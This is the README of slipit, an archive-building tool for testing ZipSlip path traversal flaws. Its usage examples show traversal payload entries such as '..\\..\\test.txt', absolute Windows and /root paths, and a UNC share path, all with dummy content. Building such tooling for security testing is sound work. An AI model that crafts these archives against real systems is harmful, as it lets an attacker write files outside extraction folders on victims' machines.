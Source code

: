 ### slipit

----

*slipit* is a command line utility for creating archives with path traversal elements.
It is basically a successor of the famous [evilarc](https://github.com/ptoomey3/evilarc)
utility with an extended feature set and improved base functionality.


### Installation

----

*slipit* can be installed via [pip](https://pypi.org/project/pip/) by running the following commands:

```console
$ git clone https://github.com/usdAG/slipit
$ cd slipit
$ python3 setup.py sdist
$ pip3 install --user sdist/* 
```

*slipit* also supports autocompletion for *bash*. To take advantage of autocompletion, you need to have the
[completion-helpers](https://github.com/qtc-de/completion-helpers) project installed. If setup correctly, just
copying the [completion script](./resources/bash_completion.d/slipit) to your ``~/.bash_completion.d`` folder enables
autocompletion.


### Usage

----

```console
[user@box ~]$ slipit -h
usage: slipit [-h] [--archive-type {zip,tar,tgz,bz2}] [--clear] [--debug] [--depth int] [--increment int] [--overwrite]
              [--prefix string] [--multi] [--separator char] [--sequence seq] [--static content] [input ...] archive

slipit v1.0.0 - Utility for creating ZipSlip archives.

positional arguments:
  input                 input files to include into the archive
  archive               target archive file

optional arguments:
  -h, --help            show this help message and exit
  --archive-type {zip,tar,tgz,bz2}
                        archive type to use
  --clear               clear the specified archive from traversal items
  --debug               enable verbose error output
  --depth int           number of traversal sequences to use (default=6)
  --increment int       add incremental traversal payloads from <int> to depth
  --overwrite           overwrite the target archive instead of appending to it
  --prefix string       prefix to use before the file name
  --multi               create an archive containing multiple payloads
  --separator char      path separator (default=\)
  --sequence seq        use a custom traversal sequence (default=..{sep})
  --static content      use static content for each input file
```

*slipit* expects an arbitrary number of input files and the targeted output archive as mandatory command line
parameters. All specified input files are appended to the specified archive including a path traversal prefix
with a depth specified with the `--depth` option (default is 6). The targeted archive format is determined
automatically depending on the file extension for non existing archives or the mime type for already existing
archives. You can also specify the archive type manually by using the `--archive-type` option.

```console
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
[user@box ~]$ slipit test.txt example.zip 
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
```

*slipit* expects the specified input files to exist on your local file system and uses the file content of
them within the archive. Often times this is not necessary and you just require dummy content to test for
*ZipSlip* vulnerabilities. This is where the `--static <string>` option can be helpful. When using this option,
only the filenames of the specified input files are used within the archive, while their content is set to `<string>`.

```console
[user@box ~]$ slipit test2.txt example.zip --static 'HELLO WORLD :D'
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
..\..\..\..\..\..\test.txt                     2022-02-02 18:40:48           36
..\..\..\..\..\..\test2.txt                    2022-02-02 18:45:22           14
```

By using the `--clear` option, you can clear an archive from path traversal payloads.

```console
[user@box ~]$ slipit --clear example.zip 
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
example/                                       2022-02-02 18:39:00            0
example/images/                                2022-02-02 18:40:16            0
example/images/holiday.png                     2022-02-02 18:40:06        34001
example/images/beach.png                       2022-02-02 18:40:16         2112
example/documents/                             2022-02-02 18:39:48            0
example/documents/invoice.docx                 2022-02-02 18:39:40         3001
example/documents/important.docx               2022-02-02 18:39:48          121
```

*slipit* also allows to create an archive containing multiple payloads by using the `--multi` option:

```console
[user@box ~]$ slipit test.txt example.zip --static content --multi
[user@box ~]$ slipit example.zip 
File Name                                             Modified             Size
C:\Windows\test.txt                            2022-02-03 09:35:28            7
\\10.10.10.1\share\test.txt                    2022-02-03 09:35:28            7
/root/test.txt                                 2022-02-03 09:35:28            7
../test.txt                                    2022-02-03 09:35:28            7
..\test.txt                                    2022-02-03 09:35:28            7
../../test.txt                                 2022-02-03 09:35:28            7
..\..\test.txt                                 2022-02-03 09:35:28            7
../../../test.txt                              2022-02-03 09:35:28            7
..\..\..\test.txt                              2022-02-03 09:35:28            7
../../../../test.txt                           2022-02-03 09:35:28            7
..\..\..\..\test.txt                           2022-02-03 09:35:28            7
../../../../../test.txt                        2022-02-03 09:35:28            7
..\..\..\..\..\test.txt                        2022-02-03 09:35:28            7
```


### Supported Archive Types

----

Currently, the following archive types are supported (just naming their most common
extension):

* `.zip`
* `.tar`
* `.tar.gz`
* `.tar.bz2`

